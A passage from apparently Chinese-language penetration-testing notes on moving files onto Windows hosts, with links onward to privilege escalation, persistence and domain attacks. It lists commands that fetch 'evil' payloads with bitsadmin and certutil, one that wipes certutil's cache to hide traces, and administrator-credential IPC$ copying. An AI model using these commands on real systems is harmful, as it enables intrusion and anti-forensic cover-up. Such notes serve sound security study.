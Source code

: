 **smb**
1. 在公网创建一个共享如：\\111.111.111.111\test$
2. 命令行下执行 net use \\111.111.111.111\test$ /u:test test
3. 最后上传文件到共享，命令行下拷贝：copy \\111.111.111.111\test$\test.exe c:\

**Bitsadmin**

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```

**certutil**

用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
```
# 下载
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

# 删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

**ipc$**
```
# 建立远程 IPC 连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```

---

# 权限提升

- [权限提升](./权限提升.md)

---

# 权限维持

- [权限维持](./权限维持.md)

---

# windows域

**域渗透相关文章(总结类)**
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646)

## 域基础知识
